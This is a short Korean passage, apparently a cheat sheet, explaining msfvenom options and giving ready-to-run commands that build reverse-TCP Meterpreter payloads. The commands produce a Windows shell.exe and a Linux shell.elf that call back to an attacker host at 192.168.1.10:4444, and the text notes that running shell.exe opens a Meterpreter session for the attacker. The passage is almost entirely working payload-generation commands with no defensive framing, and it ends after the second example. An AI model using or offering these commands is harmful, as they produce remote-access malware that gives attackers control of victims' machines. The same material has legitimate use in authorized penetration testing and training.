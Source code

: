 ```bash
msfvenom -p <payload> LHOST=<공격자 IP> LPORT=<포트> -f <포맷> -o <출력파일>
```

- `-p` : 사용할 페이로드(payload) 선택
- `LHOST` : 리스너 호스트(공격자 IP 주소)
- `LPORT` : 리스너 포트
- `-f` : 출력 포맷(format) 지정 (exe, elf, apk, c, python 등)
- `-o` : 출력 파일 지정

---

### 1. Windows용 Reverse TCP Shell 생성

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe
```

➡️ `shell.exe` 실행 시 공격자에게 Meterpreter 세션이 연결됨.

### 2. Linux ELF Payload 생성

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o shell.elf
```
